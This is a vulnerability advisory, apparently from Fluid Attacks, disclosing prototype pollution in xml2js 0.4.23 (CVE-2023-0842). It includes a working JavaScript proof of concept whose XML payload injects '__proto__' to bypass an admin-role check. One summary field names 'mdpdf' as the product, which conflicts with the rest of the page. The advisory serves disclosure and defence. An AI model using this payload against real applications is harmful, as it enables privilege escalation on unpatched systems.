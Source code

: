 ```yaml
---
slug: advisories/myers/
title: xml2js 0.4.23          -         Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: myers
product: xml2js 0.4.23  -  Prototype Pollution
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0842
severity: 7.3
description: xml2js 0.4.23          -         Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, NPM, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | xml2js 0.4.23 - Prototype Pollution                                |
| **Code name**         | [Myers](https://en.wikipedia.org/wiki/Bryant_Myers)                |
| **Product**           | mdpdf                                                              |
| **Affected versions** | Version 0.4.23                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-04-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0842](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0842)                                               |

## Description

xml2js version 0.4.23 allows an external attacker to edit or add new
properties to an object. This is possible because the application does
not properly validate incoming JSON keys, thus allowing the `__proto__`
property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so, then
it calls it. If not, it looks in the object's prototype. If the method/attribute
is also not in the object's prototype, then the property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into an
object, he will succeed in injecting or editing its properties.

## Exploitation

### Exploit.md

```js
var parseString = require('xml2js').parseString;

let normal_user_request    = "<role>admin</role>";
let malicious_user_request = "<__proto__><role>admin</role></__proto__>";

const update_user = (userProp) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    parseString(userProp, function (err, user) {
        if(user.hasOwnProperty("role") && user?.role.toLowerCase() === "admin") {
            console.log("Unauthorized Action");
        } else {
            console.log(user?.role[0]);
        }
    });
}

update_user(normal_user_request);
update_user(malicious_user_request);
```

## Evidence of exploitation

![Explotation-xml2js](https://user-images.githubusercontent.com/51862990/219061662-8134c98a-e0bf-40c9-9834-426f5213add6.png)

## Our security policy

We have reserved the ID CVE-2023-0842 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: xml2js 0.4.23

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Leonidas-from-XIV/node-xml2js/>

## Timeline

<time-lapse
  discovered="2023-02-14"
  contacted="2023-02-14"
  replied="2023-02-14"
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
